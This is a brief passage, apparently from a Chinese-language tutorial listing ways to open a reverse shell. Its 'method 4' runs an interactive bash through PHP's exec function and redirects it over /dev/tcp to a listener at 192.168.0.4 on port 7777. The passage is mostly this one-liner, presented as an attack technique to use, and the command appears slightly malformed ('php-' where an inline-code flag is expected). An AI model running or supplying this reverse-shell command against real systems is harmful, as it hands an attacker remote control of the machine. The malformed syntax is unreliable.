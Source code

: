 ![bCG25adDFg.png](Untitled.assets/15319948537353.png)





### 方法4：





使用php反弹shell，方法如下 。
首先最简单的一个办法，就是使用php的exec函数执行方法1反弹shell的命令：



```
php- 'exec("/bin/bash -i >& /dev/tcp/192.168.0.4/7777")'
```





![AfJ3e8GI2i.png](Untitled.assets/1531994875408.png)![Da1d5I1GgL.png](Untitled.assets/15319948824806.png)
